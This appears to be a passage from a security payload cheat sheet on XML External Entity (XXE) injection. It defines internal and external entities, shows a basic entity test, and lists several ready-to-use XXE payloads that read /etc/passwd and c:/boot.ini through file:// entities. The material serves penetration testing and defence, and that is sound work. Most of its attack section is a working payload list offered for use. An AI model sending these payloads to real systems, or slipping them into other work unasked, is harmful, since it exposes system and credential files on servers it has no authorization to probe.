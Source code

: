
## Detect The Vulnerability

**Internal Entity**: If an entity is declared within a DTD it is called an internal entity.
Syntax: `<!ENTITY entity_name "entity_value">`

**External Entity**: If an entity is declared outside a DTD it is called an external entity. Identified by `SYSTEM`.
Syntax: `<!ENTITY entity_name SYSTEM "entity_value">`

Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName`. Entities are defined inside the `DOCTYPE` element.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.

## Exploiting XXE to Retrieve Files

### Classic XXE

We try to display the content of the file `/etc/passwd`.

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```
